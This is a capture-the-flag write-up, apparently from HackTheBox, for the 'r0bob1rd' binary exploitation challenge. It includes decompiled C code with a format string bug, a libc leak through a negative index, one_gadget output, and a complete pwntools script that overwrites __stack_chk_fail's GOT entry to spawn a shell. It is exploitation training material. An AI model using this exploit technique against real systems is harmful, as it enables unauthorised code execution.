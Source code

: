 # R0bob1rd Challenge

### Context

This _pwn_ challenge presents a 64-bit ELF binary named `r0bob1rd`, which implements interactive functionality for selecting and describing a `r0bob1rd`. Despite its innocent appearance, the program exhibits several classic C vulnerabilities, such as the use of raw `printf(buffer)` and the lack of proper validation when reading memory and user input.

The objective of the challenge is to exploit a _format string_ condition to dynamically overwrite the address of the _GOT entry_ of `__stack_chk_fail`, initially to redirect execution back to `main()` and subsequently to a _one_gadget_ in `libc` to obtain a shell. A custom version of `glibc` is used, which adds an extra layer of complexity to the environment.

### Solution

#### Requirements

- checksec
- ghidra
- gdb
- one_gadget

#### Step 1 - Check the binary prote

The `r0bob1rd` executable is provided along with a glibc/ directory containing a version-specific `libc` and its `loader (ld.so.2)`. Running file `r0bob1rd` gives us:

```bash
file r0bob1rd

r0bob1rd: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c9a820fb2cb5f6e3fb6df9103ea375f00d80cf6c, not stripped
```

This indicates that the binary was compiled for a specific version of glibc and is not stripped, making it easier to analyze.

The binary's protections are reviewed, giving us a preview of the steps to exploit this file.

```bash
pwn checksec r0bob1rd
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./glibc/'
    Stripped:   No
```

#### Step 2 - Analyze the code

When reviewing the code in Ghidra, it was found that there was an error in the `operation` function, where it could be observed that the `buffer` variable that at the beginning is declared with a value of 104, at the end it overflows by 106, a classic `printf(user_input)` vulnerability is also observed without protection for format strings, there is also a `Stack Canary`, and if it is overwritten, `__stack_chk_fail()` is called, this function is part of `GOT` and can be written thanks to `Partial RELRO`.

```c
void operation(void)
{
  long in_FS_OFFSET;
  int number;
  char buffer [104];
  long canary;

  canary = *(long *)(in_FS_OFFSET + 40);
  printf("\nSelect a R0bob1rd > ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00400eb5,&number);
  if ((number < 0) || (9 < number)) {
    printf("\nYou\'ve chosen: %s",robobirdNames + (long)number * 8);
  }
  else {
    printf("\nYou\'ve chosen: %s",*(undefined8 *)(robobirdNames + (long)number * 8));
  }
  getchar();
  puts("\n\nEnter bird\'s little description");
  printf("> ");
  fgets(buffer,106,stdin);
  puts("Crafting..");
  usleep(2000000);
  start_screen();
  puts("[Description]");
  printf(buffer);
  if (canary != *(long *)(in_FS_OFFSET + 40)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

#### Step 3 - Exploit Strategy

Exploring the packets in this `one_gadget` process, we found the second candidate. As you can see below, R15 points to null and RDX is not -> `0x1`. However, another OR condition indicates that if RDX is an envp, we can use it.

- To verify this, we can simply run break in main and then query -> `x/s *(char **) $rdx.`

```bash
one_gadget glibc/libc.so.6

0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

#### Step 4 - Create the script

The script seeks to filter a libc address using `format string`, then enter to calculate the base of `libc`, and overwrite `__stack_chk_fail@GOT` with the address of a `one_gadget`, thereby triggering the stack smash and gaining execution, which will allow us to read the flag.

```python
from pwn import *
import os

os.system("clear")


def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)


gdbscript = """
continue
"""

exe = "./r0bob1rd"
elf = context.binary = ELF(exe, checksec=True)
context.log_level = "INFO"

library = "glibc/libc.so.6"
libc = context.binary = ELF(library, checksec=False)

sh = start()

## STAGE 1: Leak and Parse LIBC Runtime Leak + Relocate LIBC Base

sh.sendlineafter(b">", b"-8")

sh.recvuntil(b"sen: ")
get = unpack(sh.recv(6) + b"\x00" * 2)
log.info(f"RECEIVED --> {hex(get)}")
libc.address = get - libc.sym["setvbuf"]
log.success(f"LIBC BASE -> {hex(libc.address)}")

gadgets = (0xE3AFE, 0xE3B01, 0xE3B04)
one_gadget = libc.address + gadgets[1]
log.success(f"ONE GADGET --> {hex(one_gadget)}")

## STAGE 2: Overwrite _stack_chk_fail() + Trigger it

payload = fmtstr_payload(
    8, {elf.got["__stack_chk_fail"]: one_gadget}, write_size="short"
)

sh.sendlineafter(b">", payload.ljust(106, b"\x90"))
# gdb.attach(sh)

sh.interactive()
```

#### Step 5 - Flag

```bash
$ cat flag.txt
HTB{S0m3t1m3s_bl0w1ng_th3_pr0gr4m_1s_g00d}
```

